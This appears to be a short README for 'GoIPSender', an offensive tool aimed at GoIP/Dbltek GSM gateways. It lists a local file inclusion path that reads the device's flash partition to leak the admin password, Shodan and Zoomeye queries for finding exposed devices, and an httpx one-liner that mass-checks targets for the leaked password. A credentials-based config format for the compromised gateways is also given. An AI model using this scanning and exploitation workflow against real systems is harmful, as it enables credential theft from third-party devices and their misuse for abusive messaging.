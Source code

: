 # GoIPSender

# Config
``host|user:pass,line``
example: ``177.30.254.36:81|admin:admin,8``
## LFI GoIP Dbltek
``http://ip:port/default/en_US/frame.html?content=/dev/mtdblock/5``
### Export results
Zoomeye: ``/default/en_US/status.html``
<br/>
Shodan: ``HTTP/1.0 401 Please Authenticate WWW-Authenticate: Basic realm="Please Login"``
### Check valid targets
```sh
cat exportresults | httpx -mc 200 -s -path "/default/en_US/frame.html?content=/dev/mtdblock/5" -ms "ADMIN_PASSWORD" -t | grep -iEv "(RoIP|Bank)"
```
<br/><br/>
![image](https://user-images.githubusercontent.com/74382279/198907983-7b0c6075-fdca-41ef-aba9-fe393d0b7b3e.png)
